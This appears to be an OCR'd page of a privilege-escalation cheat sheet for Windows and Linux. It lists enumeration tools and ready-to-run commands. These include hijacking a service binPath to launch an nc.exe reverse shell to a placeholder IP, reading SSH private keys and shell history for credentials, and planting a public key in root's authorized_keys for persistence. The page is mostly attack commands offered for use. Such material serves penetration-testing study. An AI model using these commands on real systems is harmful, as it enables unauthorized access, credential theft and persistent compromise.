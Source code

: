 - Seatbelt

```
https://github.com/GhostPack/Seatbelt
```

- JAWS

```
https://github.com/411Hall/JAWS
```

- Weak Service

```
C:\> sc.exe config <service> binPath=C:\Windows\Temp\nc.exe -e cmd.exe <IP address> <port>"
C:\> sc.exe stop <service>
C:\> sc.exe start <service>
```

- Cron Jobs

```
$ ls /etc/crontab
$ ls /etc/cron.d
$ ls /var/spool/cron/crontabs/root
```

- Vulnerable Software

```
$ dpkg -l
C:\> dir "C:\Program Files"
C:\> dir "C:\Program Files (x86)"
```

- Exposed Credentials

```
$ cat .bash_history
PS C:\> Get-Content (Get-PSReadlineOption).HistorySavePath
```

- SSH Key Login

```
$ cat /home/user/.ssh/id_rsa
$ cat /root/.ssh/id_rsa
$ chmod 600 id_rsa
$  ssh <user>@<IP address> -i id_rsa
```

- SSH Authorized Keys

```
$ ssh-keygen -f key
$ cat key.pub
$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
$ ssh <user>@<IP address> -i key
```
